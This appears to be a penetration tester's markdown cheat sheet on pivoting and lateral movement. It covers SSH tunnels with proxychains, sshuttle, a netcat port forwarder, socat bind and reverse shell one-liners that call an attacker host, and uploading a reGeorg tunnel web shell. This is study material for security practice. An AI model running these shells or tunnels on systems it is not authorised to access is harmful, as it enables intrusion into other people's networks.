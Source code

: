```yaml
---
category: Uncategorized
tags: []
---
```

#pivoting #lateral-movement
# Check if your tunnel is active and running: 

- nc -z localhost port || echo 'no tunnel open'
- netstat -lpnt | grep port | grep ssh
- ps aux | grep ssh
- ss -ntlp

# SSH Tunneling

Note: Target must have SSH running for there service

1. Create SSH Tunnel: ssh -D localhost:local port -f -N user@localhost -p Target Port
2. Setup ProxyChains. Edit the following config file (/etc/proxychains.conf)
3. Add the following line into the config: Socks5 127.0.0.1 Local Port
4. Run commands through the tunnel: proxychains command

# SShuttle

In Kali

Source: https://github.com/sshuttle/sshuttle

- sshuttle -r root@172.21.0.0 10.2.2.0/24
- sshuttle -D -r user@host 10.10.10.10 0/0 --ssh-cmd 'ssh -i ./id_rsa' # Daemon mode
- sshuttle -D --dns -vr user@yourserver.com 0/0 --ssh-cmd 'ssh -i /your/key/path.pem' # Daemon mode with DNS
- Working with your .ssh/config:
```
sshuttle --dns -vr user@server 0/0 --ssh-cmd 'ssh jumpbox'
sshuttle --dns -r myserver 0/0 -x <server-IP>
```

# Socat

## Bind Shell

```
victim> socat TCP-LISTEN:443,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:443
```

## Reverse Shell

```
attacker> socat TCP-LISTEN:443,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:443 EXEC:bash,pty,stderr,setsid,sigint,sane
```

# Port Forwarder
1. mknod pivot p
2. nc -l -p < port to listen on> 0<pivot | nc "target" "pivot-port" 1>pivot

# reGeorg

Source: https://github.com/sensepost/reGeorg

Note: reGeorg requires Python 2.7 and the following modules:

urllib3 - HTTP library with thread-safe connection pooling, file post, and more.

1. Upload tunnel.(aspx|ashx|jsp|php) to a webserver
2. Configure the tool to use a socks proxy, use the ip address and port you specified when you started the reGeorgSocksProxy.py
```
python reGeorgSocksProxy.py -p 8080 -u http://upload.megacorpone.net:8080/tunnel/tunnel.jsp
```